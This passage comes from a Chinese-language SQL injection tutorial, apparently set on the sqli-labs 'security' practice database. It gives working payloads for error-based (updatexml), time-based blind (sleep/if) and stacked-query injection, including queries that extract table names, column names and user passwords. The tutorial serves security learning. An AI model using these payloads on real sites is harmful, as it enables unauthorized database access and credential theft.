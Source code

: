 ![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RE1ia6Amyjq2WYXVu730YXhqJGAPbqA6a1ORpHc3KKzzCXEdkvYIZUgQ/640?wx_fmt=png&from=appmsg "")  
  
3）依次可获得表名、列名，具体数据  
```
?id=1" and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)--+

?id=1" and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 2,1),0x7e),1)--+

?id=1" and updatexml(1,concat(0x7e,(select password from security.users limit 2,1),0x7e),1)--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RePy5hMPZjsc4W0ibssjDq5ubpufSOlqCKHdJ62MFib0Ag3uro69nRWIQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4Rb52icasAqCwTBCAX1icrIQ9sTFMWrFCmfZBPzODqwia6wb03YD47hArZg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RNxqIDeQmemKL3OsEdndDgb8xibCQzQYG93VMoKsOFiaUIkhkBKMOiaPZA/640?wx_fmt=png&from=appmsg "")  
  
4、**延时注入**  
  
延时注入与布尔注入一样，页面无回显，根据页面响应时间来判断  
  
关键函数：  
sleep()  
、  
benchmark()  
、if(expr1,expr2,expr3) 当expr1为true时执行expr2，否则执行expr3  
  
1）使用sleep函数使执行时间变长，根据响应时间判断是否存在  
```
?id=1' and sleep(5)--+
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icjPTM4gYeUibntmCYZHBc7zibIaCPGlz4RvtaReXj2iatuSarSDECllsjPTmsS0JyoHFtLLIDrtH026lorgm4EyMw/640?wx_fmt=png&from=appmsg "")  
  
2）结合if函数，通过响应时间即可进行漏洞利用  
```
判断数据库名长度：
?id=1' and if(length(database())=8,sleep(5),1)--+

判断数据库名第一个字符：
?id=1' and if(substr(database(),1,1)='s',sleep(5),0)--+
```  
  
依次可获得完整的数据库名、表名、列名以及具体数据。  
  
5、**堆叠查询注入**  
  
堆叠查询可以执行多条SQL语句，多语句之间用分号隔开。  
通常堆叠查询只有前面语句的结果返回，而后续构造的语句结果无法返回，需要结合sleep()函数，与延时注入步骤一致  
  
关键点：数据库执行语句的特性，用分号;分隔可执行多条语句。  
  
1）测试语句  
```
判断数据库名长度：
?id=1';select if(length(database())=8,sleep(5),1)--+

判断数据库名第一个字符
?id=1';select if(substr(database(),1,1)='s',sleep(5),1)--+

判断表名第一个字符
?id=1';select if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='u',sleep(5),1)--+
```  
  